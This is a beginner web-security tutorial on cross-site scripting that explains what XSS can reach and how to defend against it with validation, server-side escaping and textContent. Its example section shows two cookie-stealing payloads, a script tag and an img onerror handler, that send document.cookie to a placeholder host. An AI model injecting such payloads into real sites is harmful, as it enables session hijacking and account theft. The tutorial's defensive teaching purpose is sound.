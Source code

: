 # Cross site scripting attacks (XSS)

If you add HTML to a page using `innerHTML` (or several `jQuery` methods), you need to be aware of Cross-Site Scripting Attacks or XSS, otherwise, an attacker could gain access to your users' accounts.

## How XSS happens?

XSS involves an attacker placing malicious code into a site. Websites often feature content created by many different people. For example:

- Users can create profiles or add comments.
- Multiple authors may contribute articles.
- Data can come from third-party sites such as Facebook, Twitter, news tickets, other feeds.
- File such as images and video may be uploaded.

## What can these attacks do?

XSS can give the attacker access to information in:

- The DOM (including form data).
- That websites cookies.
- Session tokens, information that identifies you from other users when log into the site.

This could let the attacker access a user account and:

- Make purchases with that account.
- Post contents.
- Spread thier malicious code further / faster.

## Example of XSS attack

This first example stores cookie data in a variable, which could then be sent to a third-party server:

```js
<script>
  let adr = 'http://example.com/xss.php?cookie=' + escape(document.cookie);
</script>
```

This code shows how a missing image can be used with an HTML attribute to trigger malicious code:

```js
<img src="http://nofile" onerror="adr='http://example.com/xss.php?'+ encodeURIComponent(document.cookie)">
```

## Defending aginst Cross-Site Scripting attack

![defending_xss](./defending_xss.png)

**Validate input going to the server**

1. Only let visitors input the kind of characters they need when supply information. This is known as `validation`. Do not allow untrusted users to submit HTML markup or JavaScript (As Front-End part).
2. Double-check validation on the server before storing it in database. This is important because user can bypass validation in the front-end.
3. Database may safely take XSS code script. This is because database is not processing the code but more that storing it only.

**Escaping data coming from the server & database**

4. As your data leaves the database, all potentially dangerous characters should be escaped.
5. Make sure that you are only inserting content generated by the users into certain parts of the template file.
6. Do not create DOM fragments containing HTML from untrusted sources. It should be added as text once it has been escaped.

## XSS validation & templates

Make sure that your users can only input characters they need to use and limit where this content will be shown on the page.

For example, users' names and email addresses will not contain angled brackets, ampersands, or parentheses, so you can validate data to prevent characters like this being used.

## XSS: ESCAPING & CONTROLLING MARKUP

Any content generated by users that contain characters that are used in code should be escaped on the server. You must control any markup added to the page.

### Escaping user content (From User to server)

All data from untrusted sources should be escaped on the server before it is shown on the page.

| Character | Escaping equivalent |
| --------- | ------------------- |
| &         | `&amp;`             |
| <         | `&lt;`              |
| >         | `&gt;`              |
| \`        | `&#x60;`            |
| '         | `&#x27;`            |
| "         | `&quot;`            |
| /         | `&#x2F;`            |

**Escaping URLS risky characters**
If you have links containing user input (e.g., links to a user profile or search queries), use the JavaScript `encodeURIComponent()` method to encode the user input.

`, / ? : @ & = + $ #` all those will change to the equivalent ASCII

### Adding user content (From server to User)

When you add untrusted content to an HTML page, once it has been escaped on the server, it should still be added to the page as text.

- DO use: `textContent` or `innerText`
- DO NOT use: `innerHTML`

---

### References and Terms:

> :information_source: [jQuery](https://jquery.com/) is a fast, small, and feature-rich JavaScript library. It makes things like HTML document traversal and manipulation, event handling, animation, and Ajax much simpler with an easy-to-use API that works across a multitude of browsers.

> :information_source: [ASCII](https://www.cs.cmu.edu/~pattis/15-1XX/common/handouts/ascii.html) stands for American Standard Code for Information Interchange.
